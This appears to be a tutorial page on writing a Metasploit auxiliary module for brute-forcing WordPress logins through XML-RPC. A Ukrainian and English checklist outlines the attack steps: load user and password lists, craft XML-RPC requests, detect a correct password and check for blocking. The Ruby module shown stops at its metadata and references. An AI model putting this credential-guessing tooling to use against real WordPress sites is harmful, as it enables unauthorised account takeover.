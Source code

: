 Досить балачок, ось  вам код!

#### Що ми хочемо зробити?
- [ ] Зробити допоміжний модуль
- [ ] Deal with Web Application 
- [ ] Deal with WordPress 
- [ ] Описати модуль
- [ ] Повідомити ком'юніті про те, що ми зробили цей модуль
- [ ] Додати посилання на іразливість, яку ми використали
- [ ] ДОдати параметри для установки адреси, порту, імені користувача, файлу з паролями.
- [ ] Читати ім'я користувачів та паролі в вигляді списку.
- [ ] Згенерувати XML з користувачем та паролями, що ми будемо перебирати.
- [ ] Перевірити, чи є WordPress на цільовому сайті.
- [ ] Перевірити, чи там ввімкнена служба RPC
- [ ] Налагодити HTTP для використаня XML та Post запиту
- [ ] Аналізувати запит та відповідь в форматі XML
- [ ] Знайти строку, що вказує на використання правильного паролю.
- [ ] Перевірити чи не заблокували нас на сервері
- [ ] Проаналізувати запит і знайти який саме пароль був правильним
- [ ] Перевірити чи корректно і правильно написано наш модуль (msftidy.rb)

#### Steps

- [x] Create Auxiliary module
- [x] Deal with Web Application 
- [x] Deal with WordPress 
- [x] Describe The module
- [x] Let people know we created this module
- [x] Add references about the vulnerability that we exploit
- [x] Options to set the target URI, port, user, pass list.

```ruby
##
# This module requires Metasploit: http://www.metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HTTP::Wordpress

  def initialize(info = {})
    super(update_info(
            info,
            'Name'         => 'WordPress XML-RPC Massive Brute Force',
            'Description'  => %q{WordPress massive brute force attacks via WordPress XML-RPC service.},
            'License'      => MSF_LICENSE,
            'Author'       =>
                [
                  'Sabri (@KINGSABRI)',           # Module Writer
                  'William (WCoppola@Lares.com)'  # Module Requester
                ],
            'References'   =>
                [
                  ['URL', 'https://blog.cloudflare.com/a-look-at-the-new-wordpress-brute-force-amplification-attack/'],
                  ['URL', 'https://blog.sucuri.net/2014/07/new-brute-force-attacks-exploiting-xmlrpc-in-wordpress.html']
                ]
          ))

    register_options(
```